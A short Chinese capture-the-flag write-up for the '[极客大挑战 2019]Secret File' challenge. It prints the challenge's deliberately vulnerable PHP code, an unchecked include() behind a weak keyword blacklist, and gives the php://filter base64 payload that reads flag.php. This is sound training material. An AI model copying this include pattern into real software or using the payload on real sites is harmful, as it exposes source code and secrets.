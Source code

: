 # \[极客大挑战 2019]Secret File

## \[极客大挑战 2019]Secret File

## 考点

* 文件包含配合伪协议读取文件
* http

## wp

抓包发现隐藏的链接Archive\_room.php，访问发现新的链接action.php，接着抓包

![](<../../.gitbook/assets/image (31) (1) (1) (1).png>)

访问secr3t.php

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

访问`secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php`即可
